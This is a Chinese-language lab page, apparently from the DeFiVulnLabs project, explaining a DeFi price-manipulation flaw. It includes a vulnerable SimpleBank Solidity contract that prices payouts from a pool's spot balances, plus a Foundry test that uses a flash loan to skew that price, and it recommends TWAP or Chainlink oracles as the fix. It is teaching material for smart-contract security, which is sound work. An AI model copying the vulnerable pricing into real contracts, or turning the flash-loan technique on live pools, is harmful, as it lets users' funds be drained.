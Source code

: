 [Price_manipulation.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Price_manipulation.sol)

# 价格操纵

**名称：** 价格操纵

**描述：**balanceOf价格计算错误，getReverse可能指向一个未经精准计算的toke或资产价格。

**减轻：**

使用抗操纵预言机、chainlink、TWAP 等。

**参考：**

https://twitter.com/1nf0s3cpt/status/1673948842738487296

https://github.com/SunWeb3Sec/DeFiHackLabs/tree/main/past/2022#20221012-atk---flashloan-manipulate-price

https://github.com/SunWeb3Sec/DeFiHackLabs/tree/main/past/2022#20220807-egd-finance---flashloans--price-manipulation

https://github.com/SunWeb3Sec/DeFiHackLabs/tree/main/past/2022#20220428-deus-dao---flashloan--price-oracle-manipulation

**SimpleBank 合约样例:**

```jsx
contract SimpleBank {
    IERC20 public token; //USDA
    SimplePool public pool;
    IERC20 public payoutToken; //USDb

    constructor(address _token, address _pool, address _payoutToken) {
        token = IERC20(_token);
        pool = SimplePool(_pool);
        payoutToken = IERC20(_payoutToken);
    }

    function exchange(uint256 amount) public {
        require(
            token.transferFrom(msg.sender, address(this), amount),
            "Transfer failed"
        );
        uint256 price = pool.getPrice();
        require(price > 0, "Price cannot be zero");
        uint256 tokensToReceive = (amount * price) / (10 ** 18);
        require(
            payoutToken.transfer(msg.sender, tokensToReceive),
            "Payout transfer failed"
        );
    }
```

***\*测试方法:\****

仿真测试--contracts src/test/**Price_manipulation.sol** -vvvv

```jsx
// Function to test a potential price manipulation vulnerability
    function testPrice_Manipulation() public {
        // Transfers 9000 ether (using ether as a denomination here but it actually refers to the USDb token's smallest unit) to the SimpleBankContract from the USDbContract
        USDbContract.transfer(address(SimpleBankContract), 9000 ether);
        
        // Transfers 1000 ether worth of USDa tokens to the SimplePoolContract from the USDaContract
        USDaContract.transfer(address(SimplePoolContract), 1000 ether);
        
        // Transfers 1000 ether worth of USDb tokens to the SimplePoolContract from the USDbContract
        USDbContract.transfer(address(SimplePoolContract), 1000 ether);
        
        // Retrieves the current price of USDa in terms of USDb from the SimplePoolContract
        // Initially, the price is assumed to be 1 USDa : 1 USDb
        SimplePoolContract.getPrice(); // 1 USDa : 1 USDb

        // Logs the assumption that the price of USDa is 1 to 1 USDb because the pool has 1000 of each
        console.log(
            "There are 1000 USDa and USDb in the pool, so the price of USDa is 1 to 1 USDb."
        );
        
        // Emits a log with the current USDa conversion rate
        emit log_named_decimal_uint(
            "Current USDa convert rate",
            SimplePoolContract.getPrice(),
            18
        );
        
        // Logs the start of the price manipulation attempt
        console.log("Start price manipulation");
        
        // Logs a message about borrowing 500 USDb via a flash loan
        console.log("Borrow 500 USBa over floashloan");
        
        // Attempts to manipulate the price by using a flash loan to borrow 500 USDb
        // This could potentially distort the balance of USDa and USDb in the SimplePoolContract, affecting the price
        SimplePoolContract.flashLoan(500 ether, address(this), "0x0");
    }
```

**红色框：价格被操纵。**

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F6e72f9da-a310-4e12-a4df-724cfe5a4cd0%2FUntitled.png?table=block&id=4982af62-42fa-4aef-ac03-b62eb5514bc9&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
